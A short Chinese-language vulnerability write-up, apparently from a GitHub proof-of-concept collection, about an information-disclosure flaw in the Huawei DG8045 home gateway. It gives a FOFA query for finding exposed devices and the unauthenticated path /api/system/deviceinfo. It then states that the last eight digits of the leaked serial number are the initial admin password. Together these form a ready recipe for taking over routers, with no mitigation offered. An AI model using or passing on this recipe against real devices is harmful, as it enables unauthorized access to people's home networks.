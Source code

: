 # Huawei DG8045 deviceinfo 信息泄漏漏洞

## 漏洞描述

Huawei DG8045 deviceinfo api接口存在信息泄漏漏洞，攻击者通过泄漏的信息可以获得账号密码登录后台

## 漏洞影响

```
Huawei DG8045
```

## FOFA

```
app="DG8045-Home-Gateway-DG8045"
```

## 漏洞复现

登录页面

![image-20220519181753641](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191817718.png)

验证POC

```
/api/system/deviceinfo
```

![image-20220519181803482](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191818539.png)

SerialNumber 后8位即为初始密码